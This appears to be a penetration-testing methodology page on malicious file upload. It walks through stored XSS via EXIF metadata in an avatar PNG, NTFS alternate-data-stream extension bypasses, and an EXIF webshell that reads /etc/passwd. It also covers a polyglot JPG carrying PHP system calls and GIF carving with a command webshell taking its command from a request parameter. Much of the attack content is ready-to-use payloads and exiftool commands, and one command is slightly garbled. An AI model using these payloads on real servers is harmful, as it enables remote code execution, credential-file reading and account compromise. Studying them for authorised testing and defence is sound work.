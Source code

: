 # Upload of Malicious Files

## Check List

## Methodology

### Black Box

#### XSS Stored via Upload avatar PNG \[HTML]

{% stepper %}
{% step %}
Create Malicious PNG Payload&#x20;
{% endstep %}

{% step %}
Download the XSS payload PNG from&#x20;

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss\_comment\_exif\_metadata\_double\_quote.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss_comment_exif_metadata_double_quote.png)

or use exiftool to embed

```bash
exiftool -Comment="">alert(prompt('XSS BY ZEROX4'))" xss_comment_exif_metadata_double_quote.pn
```
{% endstep %}

{% step %}
Access Avatar Upload Page
{% endstep %}

{% step %}
Go to the locate the avatar upload form
{% endstep %}

{% step %}
Intercept Upload Request in Burp Suite
{% endstep %}

{% step %}
Modify Content-Type to `text/html`
{% endstep %}

{% step %}
Edit the Content-Type header for the uploaded file from `image/png` to `text/html` in the request
{% endstep %}

{% step %}
Submit Modified Request
{% endstep %}

{% step %}
Forward the altered request to upload the malicious PNG as HTML
{% endstep %}

{% step %}
Verify Stored XSS Execution
{% endstep %}

{% step %}
Confirm the file is saved on example.com and access it to trigger the alert payload
{% endstep %}
{% endstepper %}

***

#### NTFS Alternate Data Streams (ADS) abuse

{% stepper %}
{% step %}
Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application

```
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;
```
{% endstep %}

{% step %}
Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server ("`file.asax:.jpg`") This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions ("`file.asp::$data.`")
{% endstep %}
{% endstepper %}

***

#### EXIF Metadata Webshell

{% stepper %}
{% step %}
Find a nice picture and embed the shell into the image like this

```bash
exiftool -documentname='<?php echo file_get_contents("/etc/passwd"); ?>' picture.png
```
{% endstep %}

{% step %}
Rename the jpg/png picture to the .php extension
{% endstep %}

{% step %}
Upload the picture
{% endstep %}

{% step %}
You will get an 500 error page. Ignore it. Grep the time from the response and convert it to a timestamp
{% endstep %}

{% step %}
Use the timestamp to find your shell

&#x20;`https://example.org/uploads/profile/[USERNAMAE][timestamp].php`
{% endstep %}
{% endstepper %}

***

#### Polyglot File Upload

{% stepper %}
{% step %}
A Magic Number is a unique sequence of bytes at the beginning of a file that identifies its type. Even if a file’s extension is changed, the Magic Number helps the system recognize the actual file format Examples

```
PNG files start with: 89 50 4E 47 0D 0A 1A 0A
PDF files start with: %PDF-1.7
```

```http
Content-Disposition: form-data; name="image"; filename="img.jpg"
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC -> jpg Magic Number
... (binary data) ...
ÿÙ
```
{% endstep %}

{% step %}
I uploaded a normal .jpg image, and the server accepted it, returning a 200 OK status\
Exploit Attempt
{% endstep %}

{% step %}
I re-send the exact same request, but this time, I modified the image content by embedding the PHP shell code inside it
{% endstep %}

{% step %}
But I send the request and changed the file extension to PHP

```http
Content-Disposition: form-data; name="image"; filename="img.php" -> change to .PHP
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC
... (binary data) ...
<?php
echo "<pre>";
system("uname -a");
echo "</pre>";
?>
ÿÙ
```
{% endstep %}

{% step %}
Result: The server accepted the modified file and returned 200 OK
{% endstep %}
{% endstepper %}

***

#### GIF Image Carving (PHP Payload Injection)

{% stepper %}
{% step %}
Identify possible image formats (starting with GIF)
{% endstep %}

{% step %}
Test how the server transforms the uploaded image
{% endstep %}

{% step %}
Replicate these transformations locally using ImageMagick and PHP
{% endstep %}

{% step %}
Determine if any sections of the image remain unmodified
{% endstep %}

{% step %}
Inject PHP code into those sections and test execution
{% endstep %}

{% step %}
Testing with GIF
{% endstep %}

{% step %}
I began with a simple one-color (black) GIF image to easily spot modifications. After uploading and downloading the image, I compared the original and transformed versions. The transformations included

Stripping EXIF data&#x20;

Resizing the image to 300x300 pixels To replicate this locally, I used the following PHP script

```php
<?php
$thumb = new Imagick('testgif.gif');
$thumb->resizeImage(300,300);
$thumb->writeImage('testgif2.gif');
$thumb->destroy();
?>
```
{% endstep %}

{% step %}
Through testing, I identified an unmodified section of the GIF file filled with `00` values. This provided enough space to inject my PHP payload
{% endstep %}

{% step %}
Payload Injection Using a hex editor in Burp Suite, I inserted the following PHP code into the GIF file

```php
<?php phpinfo();?>
<?php system($_GET['c']);?>
```
{% endstep %}

{% step %}
By carving these payloads into the unmodified section of the GIF file, I successfully achieved remote code execution after uploading the modified image
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet
